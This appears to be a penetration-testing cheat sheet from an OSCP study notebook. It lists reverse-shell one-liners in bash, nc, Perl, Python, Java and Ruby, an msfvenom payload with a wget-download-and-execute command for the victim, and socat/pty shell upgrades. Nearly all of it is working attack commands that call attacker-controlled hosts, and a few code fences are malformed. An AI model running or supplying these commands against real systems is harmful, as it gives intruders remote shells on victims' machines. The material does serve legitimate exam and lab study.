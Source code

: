 ### BASH
```bash
/bin/bash -i >& /dev/tcp/192.168.119.145/1234 0>&1
```
**Sometimes works over HTTP:**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.219 4444 >/tmp/f
```
### Create a shell file, download and execute one liner
On Attack:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.219 LPORT=443 -f elf -o shell
sudo updog -p 80
nc -lnvp 443
```
On Victim:
```
wget http://192.168.119.219/shell -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell
```
### Shell One-Liners
[Upgrade to reverse shell from webshell](https://w00troot.blogspot.com/2017/05/getting-reverse-shell-from-web-shell.html)
#### Perl
```bash
perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```bash
#### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
#### Bash
```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```
#### Java
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4321;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```
#### Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4321).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'![image](https://github.com/0xP1ckl3d/OSCPNoteBook/assets/41103126/33577a3f-db8f-46df-a062-9a074c3884a2)
```
### Upgrading to fully interactive shells
Should be performed whenever in a netcat reverse shell
**Python**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
**Socat**
In Kali:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
In Victim:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```